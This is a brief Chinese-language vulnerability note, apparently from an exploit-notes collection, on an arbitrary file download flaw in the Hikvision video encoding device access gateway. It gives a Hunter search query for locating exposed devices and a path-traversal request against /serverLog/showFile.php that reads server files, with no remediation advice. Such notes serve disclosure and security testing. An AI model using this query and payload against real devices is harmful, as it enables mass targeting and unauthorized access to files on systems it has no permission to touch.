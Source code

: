 # 海康威视视频编码设备接入网关 showFile.php 任意文件下载漏洞

# 一、漏洞简介
海康威视视频接入网关系统在页面`/serverLog/showFile.php`的参数fileName存在任意文件下载漏洞

# 二、影响版本
+ HIKVISION 视频编码设备接入网关

# 三、资产测绘
+ hunter：`web.title="视频编码设备接入网关"&&app.name=="Hikvision 海康威视视频编码设备接入网关"`

![1691857505004-d8663f3c-62e3-4cac-8909-21305e690fea.png](./img/yRD1Rk7vrCTRxiTa/1691857505004-d8663f3c-62e3-4cac-8909-21305e690fea-234903.png)

+ 登录页面

![1691857519082-eb318732-d51e-4393-89a9-7296293727ba.png](./img/yRD1Rk7vrCTRxiTa/1691857519082-eb318732-d51e-4393-89a9-7296293727ba-690646.png)

# 四、漏洞复现
```plain
/serverLog/showFile.php?fileName=../web/html/main.php
```

![1691857555317-62dd3fcc-287a-40ea-9cb0-6f4d7a94351e.png](./img/yRD1Rk7vrCTRxiTa/1691857555317-62dd3fcc-287a-40ea-9cb0-6f4d7a94351e-655220.png)



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mq89stc9hxmf3fw1>